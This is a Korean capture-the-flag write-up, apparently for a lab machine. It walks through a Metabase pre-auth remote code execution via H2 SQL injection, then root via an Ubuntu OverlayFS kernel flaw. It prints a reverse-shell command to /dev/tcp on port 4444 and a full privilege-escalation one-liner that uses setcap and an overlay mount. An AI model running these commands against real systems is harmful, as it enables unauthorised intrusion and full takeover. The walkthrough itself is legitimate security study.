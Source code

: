 ### 사용한 취약점: metabase 원격 코드 실행, 우분투 커널 취약점(권한 상승)
### 초기 침투

- metabase 로그인 페이지를 찾음
  - metabase: 오픈 소스 business intelligence tool
  - 임의 코드 실행 취약점을 이용
### exploit
- 사용한 exploit code: https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py
- python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]" 다음과 같은 형태로 실행
  - exploit 하기 위해 data.analytics.htb/api/session/properties 에서 setup-token 값을 읽는다
    - 인증 없이도 액세스 가능한 경우가 많음
  - db 연결을 검증하는 setup-token과 함께 사용할 수 있는 api 엔드포인트를 찾음
  - h2 db 드라이버에서 sql 주입 취약점을 발견
  - db 유효성 검사 단계를 조작하여 임의의 코드 실행
<br></br>
- 해당 토큰과 url, exploit code를 실행하여 전달하고 reverse shell을 얻는다
- python3 main.py -u http://data.analytical.htb -t <토큰 값> -c "bash -i >& /dev/tcp/<ip값>/4444 0>&1"
- proc/self/environ 에서 meat user id와 meta password 값을 찾아 ssh로 접속을 시도 한다.
- user flag 값을 얻을 수 있다.

### 권한 상승
- sudo -l: 실행 안됨
- uname -a: 시스템 커널 과 하드웨어 정보를 확인하여 권한 상승할 정보를 찾는다
<br></br>

- 사용한 방법으로는 우분투 커널 취약점을 이용하여 권한 상승을 시도한다.
  - 사용한 exploit code
  - 해당 명령은 home 디렉터리나 상위 디렉터리에서 실행이 불가
  - 하위 폴더에서 실행해야 함
<br></br>
- 권한 상승 원리
  - overlayFS: 하나의 디렉터리 트리가 다른 디렉터리 트리 위에 겹쳐지는 통합 마운트 파일 시스템
    - 모든 수정 사항이 쓰기 가능한 상위 계층으로 이동, 하위 계층은 읽기 전용
  - 하위 파일을 상위 계층으로 이동하여 공격함
  - 즉 하위 디렉터리에 CAP_SETUID 같은 기능을 상위 계층으로 전달하여 실행하고 루트 권한을 얻는 원리
```
unshare -rm sh -c
"mkdir l u w m &&
cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" &&
u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```
  - unshare -rm sh: 새 사용자 네임스페이스 생성 후 새 파일 시스템 네임 스페이스를 마운트 함
  - mkdir l u w m: 각 이름의 디렉터리 생성
  - cp /u*/b*/p*3 l/: 각 패턴에 맞는 파일 복사
  - setcap cap_setuid+eip l/python3: l에 있는 python3 바이너리에 eip플래그와 함께 cap_setuid를 설정하여 권한을 상승시킴
  - mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: overlay 파일 시스템을 overlay 파일시스템 타입을 이용하여 마운트 함
    - l은 lower layer, w는 work directory, m은 mount point, u는 upper layer로 지정\
  - touch m/*: m 디렉터리에 빈 폴더 생성
<br></br>
- u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")': 명령은 u에 있는 python3 디렉터리(overlay 파일시스템 상위 계층)에서 실행됨
  - root 권한으로 bash shell을 획득 함
- 권한을 얻고 /root/root.txt에 있는 플래그 값을 읽는다.

### 결론
- metabase 취약점
  - db 유효성 검증 단계에서 sql injection을 하여 reverse shell 획득
- 커널 취약점을 이용한 권한 상승
  - namespace 생성
  - namespace-root가 마운트 된 디렉터리에 overlayFS 생성
  - lower layer 파이썬 바이너리에 CAP_SETUID 설정
  - namespace-root가 상위 계층에 파이썬 바이너리를 push함
  - 상위 계층에서 파이썬을 실행하여 루트 권한을 획득
